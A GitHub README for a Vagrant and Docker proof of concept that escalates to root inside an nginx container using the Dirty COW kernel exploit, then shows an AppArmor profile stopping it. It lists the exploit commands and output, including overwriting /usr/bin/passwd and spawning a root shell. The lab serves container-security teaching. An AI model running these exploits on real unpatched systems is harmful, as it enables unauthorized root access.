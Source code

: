# Dirtyc0w Docker POC

```
Prerequisites:
- Vagrant installed

```

## What the POC entails and why

First let's start with the why ? This POC is going to use the [`dirtyc0w`](https://dirtycow.ninja/) kernel [`exploit`](https://github.com/dirtycow/dirtycow.github.io/wiki/PoCs) to do privilege escalation inside the standard [`nginx`](https://hub.docker.com/_/nginx/) image. The only modifications
to the image I made is added a non root user lovingly called hacker and the exploit files. To see the make up of the image please see the [`Dockerfile`](https://github.com/scotty-c/dirty-cow-poc/blob/master/dirtyc0w/Dockerfile). Now for the most important part of the POC how to mitigate the attack without patching with an [`AppArmor`](https://docs.docker.com/engine/security/apparmor/) profile. Showing the importance of correct container security. With a modified version of the exploit I have been able to escape the container. I did not want to open source this as it is malicious, but the same AppArmor profile was also able to mitigate that vulnerability without any changes.  

To build the environment we will build a Vagrant box that is running a Ubuntu 16.04 server, with kernel version 4.4.0-21-generic.This is to mimic a normal server running in either a cloud environment or bare metal.
On the server we will install the latest version of Docker (1.12.3) and set the demon with the following configuration ` -H tcp://127.0.0.1:4243 -H unix:///var/run/docker.sock --ip-forward=true --iptables=true --ip-masq=true\">>/etc/default/docker` These are some default security settings at make sure the daemon is not accessible outside the host etc. Then we copy the [`AppArmor profile`](https://github.com/scotty-c/dirty-cow-poc/blob/master/nginx-docker) to the host OS in the following location `/etc/apparmor.d/containers/docker-nginx` We will run a `apparmor_parser ` to make sure we have a valid profile. We will then build the image with a standard Docker build command `docker build -t scottyc/dirtyc0w .` Then run up our container first container without an AppArmor with the following command `docker run -p 80:80 -d --name nginx scottyc/dirtyc0w` we will then run the exploits with the user hacker we created in the Docker image and we will firstly write to a file root owns as the user hacker then we will gain root access. We will then kill that container and from the very same image we will spawn a second container using the following command `docker run --security-opt "apparmor=docker-nginx" -p 80:80 -d --name nginx scottyc/dirtyc0w`. This time we will apply our AppArmor profile that will stop the exploits from working. 

# How to use

To make this as simple as possible I have automated most of the heavy lifting leaving the user to run only a few command. To run the POC please follow the follwoing instructions. 

Firstly 
``
git clone xxxx && cd xxxx
``
Then run up the environment with the command
```
vagrant up
```
Once the server is built, we will ssh into it
```
vagrant ssh
```
change to the root user
```
sudo -i
```
The first container should be running as pet of the build process, we can check this with
```
docker ps
```
You should get something like
```
CONTAINER ID        IMAGE               COMMAND                  CREATED             STATUS              PORTS                         NAMES
db86f1c04483        scottyc/dirtyc0w    "nginx -g 'daemon off"   22 seconds ago      Up 19 seconds       0.0.0.0:80->80/tcp, 443/tcp   nginx
```
Now we can log on as the hacker 
```
docker exec -it -u hacker nginx bash
```
In the directory we are logged into we have the following files
```
drwxrwxrwt  2 root root  4096 Nov  7 11:10 .
drwxr-xr-x 41 root root  4096 Nov  7 11:10 ..
-rwxr-xr-x  1 root root 11496 Nov  7 04:52 cowroot
-rwxr-xr-x  1 root root  9880 Nov  7 04:52 dirtyc0w
-r-----r--  1 root root    32 Nov  7 02:28 foo
```
If we cat the file `foo` we see
```
this content is created by root
```
We will now exploit the file `foo`
```
./dirtyc0w foo hacker-was-here
```
It will print out the following to the terminal
```
mmap 7fd0facf4000

madvise 0

procselfmem 1500000000
```
Then we will cat `foo` again
```
hacker-was-here created by root
```
check the permissions again
```
drwxrwxrwt  2 root root  4096 Nov  7 11:10 .
drwxr-xr-x 41 root root  4096 Nov  7 11:10 ..
-rwxr-xr-x  1 root root 11496 Nov  7 04:52 cowroot
-rwxr-xr-x  1 root root  9880 Nov  7 04:52 dirtyc0w
-r-----r--  1 root root    32 Nov  7 02:28 foo
```

The permissions have not changed. Now let's gain root access 
```
./cowroot
```
It will print the following 
```
DirtyCow root privilege escalation
Backing up /usr/bin/passwd to /tmp/bak
Size of binary: 54192
Racing, this may take a while..
thread stopped
thread stopped
/usr/bin/passwd overwritten
Popping root shell.
Don't forget to restore /tmp/bak
```

You will have root access to the container

Now exit the container with `exit` and `exit` again. Then remove it with `docker rm -f nginx`

Now let's run our secure container
```
docker run --security-opt "apparmor=docker-nginx" -p 80:80 -d --name nginx scottyc/dirtyc0w
```
again we will run
```
docker exec -it -u hacker nginx bash
```
Then run the exploits `./dirtyc0w foo hacker-was-here` and `./cowroot` The files will run but no exploits. For fun try to `ping 8.8.8.8` 


# Clean Up

Exit back to your host machines terminal and issue `vagrant destroy`
